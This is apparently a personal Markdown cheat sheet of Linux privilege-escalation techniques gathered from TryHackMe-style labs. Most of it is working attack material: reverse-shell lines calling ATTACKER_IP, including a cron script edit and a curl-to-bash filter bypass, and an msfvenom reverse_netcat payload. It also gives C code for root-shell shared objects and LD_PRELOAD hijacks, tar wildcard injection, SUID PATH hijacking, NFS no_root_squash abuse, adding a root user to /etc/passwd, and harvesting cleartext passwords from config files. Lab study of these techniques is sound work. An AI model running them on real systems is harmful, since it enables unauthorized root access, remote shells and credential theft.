

### capabilities
```
getcap -r / 2>/dev/null
# From the output, notice the value of the “cap_setuid” capability.
```
use GTFObins 

## sudo -l
```
sudo -l  
# use website GTFObins to check what you can do with this command output
```
[https://gtfobins.github.io/gtfobins/xxd/](https://gtfobins.github.io/gtfobins/xxd/)

### crontab
if there is something interesting in crontab:
```bash
cat /etc/crontab 
```
and if we have rights to modify this script running in cron we can escalate privileges:
```bash
# on attacker machine:
nc -nlvp ATTACKER_PORT
# on target modify crontab script to gain reverse shell
echo "/bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1" >> /opt/script.sh
```
another option:
1. In command prompt type: ``cat /etc/crontab``
2. From the output, notice the value of the “PATH” variable.
3. In command prompt type:
``echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh``
4. In command prompt type: ``chmod +x /home/user/overwrite.sh``
5. Wait 1 minute for the Bash script to execute.
6. In command prompt type: ``/tmp/bash -p``
7. In command prompt type: ``id``
and one more:
8. In command prompt type: ``cat /etc/crontab``
9. check scripts with wildcards ex.
   ```bash
   #!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
   ```
10. notice the wildcard (*) used by ‘tar’.
Exploitation
Linux VM
11. In command prompt type:
``echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh``
2. ``touch /home/user/--checkpoint=1``
3. ``touch /home/user/--checkpoint-action=exec=sh\ runme.sh``
12. Wait 1 minute for the Bash script to execute.
13. In command prompt type: ``/tmp/bash -p``
14. In command prompt type: ``id``

### find files owned by user
```bash
find / -user charlie 2>/dev/null
```
### find files owned by group
```bash
find / -group valleyAdmin -type f 2>/dev/null
```
### find files with SUID bit set
https://tryhackme.com/room/linuxprivescarena
these files are executed with owner priviledge:  
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
1. In command prompt type: ``find / -type f -perm -04000 -ls 2>/dev/null``
2. From the output, make note of all the SUID binaries.
3. In command line type:
**strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"**
4. From the output, notice that a .so file is missing from a writable directory.
**Exploitation**
Linux VM
5. In command prompt type: **mkdir /home/user/.config**
6. In command prompt type: **cd /home/user/.config**
7. Open a text editor and type:
```bash
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
8. Save the file as ``libcalc.c``
9. In command prompt type:
``g cc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c``
10. In command prompt type: ``usr/local/bin/suid-so``
11. In command prompt type: ``id``


### LD_PRELOAD linux privilege escalation
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

# save as x.c
# build:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
id

```
[https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

### RCE filtering bypass:

example commands  
command=curl ATTACKER_IP:8082/shell.sh | ba\sh

### connecting to internal ports using port forwarding
```bash
ssh -L 9001:127.0.0.1:9001 -i user_rsa user@TARGET_IP
```
### docker tricks

### PATH variable poisoning
[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)
If binary with SUID bit you can execute is using some script you can add to PATH folder containing overwritten binary
example backup script using command cp from PATH:
```bash
# check what it is using:
strings backup 
# ex. create fake cp lib
cd /tmp  
echo "/bin/bash" > cp  
chmod 777 cp  
# add folder to PATH
export PATH=/tmp:$PATH  
# run binary which is using this cp command - it will use your crafted cp file
./backup
```
### useful: check apparmor rules and shell you are using. In some cases may be helpful:
```
# list files with rules:
ls -la /etc/apparmor.d
# check type of shell:
cat /etc/passwd
```
### using fail2ban
https://juggernaut-sec.com/fail2ban-lpe/
[here is example](tryhackme-rooms/billing.md)

### writable /etc/passwd?
create a user password hash:
```bash
openssl passwd -1 -salt new 123
```
paste password to /etc/passwd:
```
The /etc/passwd file contains one entry per line for each user (user account) of the system. All fields are separated by a colon : symbol. Total of seven fields as follows. Generally, /etc/passwd file entry looks as follows:

    test:x:0:0:root:/root:/bin/bash

[as divided by colon (:)]  

1. **Username**: It is used when user logs in. It should be between 1 and 32 characters in length.
2. **Password**: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".  
    
3. **User ID (UID)**: Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. **Group ID (GID)**: The primary group ID (stored in /etc/group file)
5. **User ID Info**: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. **Home directory**: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. **Command/shell**: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.
```

### Generating payload using msfvenom with saving to file:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=YOUR_IP lport=8888 R -f raw -o autoscript.sh
```
###  OverlayFS - CVE-2021-3493
https://tryhackme.com/room/overlayfs
https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/ exploit code and explanation

## SSH
https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/
```bash
# search for id_rsa keys:
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```

## SUID - symlinks
CVE-2016-1247
## SUID  - env variables
Detection
Linux VM
1. In command prompt type: ``find / -type f -perm -04000 -ls 2>/dev/null``
2. From the output, make note of all the SUID binaries.
3. In command prompt type: ``strings /usr/local/bin/suid-env``
4. From the output, notice the functions used by the binary.
Exploitation
5. In command prompt type:
``echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c``
6. In command prompt type: ``gcc /tmp/service.c -o /tmp/service``
7. In command prompt type: ``export PATH=/tmp:$PATH``
8. In command prompt type: ``/usr/local/bin/suid-env``
9. In command prompt type: ``id``
   
## Passwords stored in  config files
```
cat /home/user/myvpn.ovpn**
# make note of the value of the “auth-user-pass” directive.
cat /etc/openvpn/auth.txt**
# make note of the clear-text credentials.
cat /home/user/.irssi/config | grep -i passw**
# make note of the clear-text credentials.
cat /home/user/.bash_history
```
## NFS Root squashing
1. In command line type: **cat /etc/exports**
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.
``Exploitation``
Attacker VM
3. Open command prompt and type: ``showmount -e 10.82.185.150``
4. In command prompt type: ``mkdir /tmp/1``
5. In command prompt type: ``mount -o rw,vers=2 10.82.185.150:/tmp /tmp/1``
In command prompt type:
``echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c``
6. In command prompt type: ``gcc /tmp/1/x.c -o /tmp/1/x``
7. In command prompt type: ``chmod +s /tmp/1/x``
Linux VM
8. In command prompt type: ``/tmp/x``
9. In command prompt type: ``id``


### Useful resources
PayloadAllTheThings - Methodology and Resources:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

some privilege escalation techniques described:
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
https://payatu.com/blog/a-guide-to-linux-privilege-escalation/

Checklist:
https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
